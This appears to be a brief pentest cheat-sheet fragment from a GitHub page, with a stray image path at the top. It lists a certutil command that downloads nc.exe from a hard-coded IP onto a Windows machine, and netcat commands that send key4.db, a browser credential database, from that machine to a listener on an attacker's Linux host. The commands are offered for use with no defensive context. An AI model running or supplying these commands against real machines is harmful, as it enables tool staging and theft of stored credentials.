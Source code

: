 ### Download file in Windows Machine.

`certutil -urlcache -f http://10.9.3.223:80/nc.exe nc.exe`

### Transfer file from Windows Machine to Linux (netcat)

`nc -nv 10.9.3.223 443 < key4.db (on windows machine)`

`nc -nvlp 443 > key4.db (on Linux Machine)`
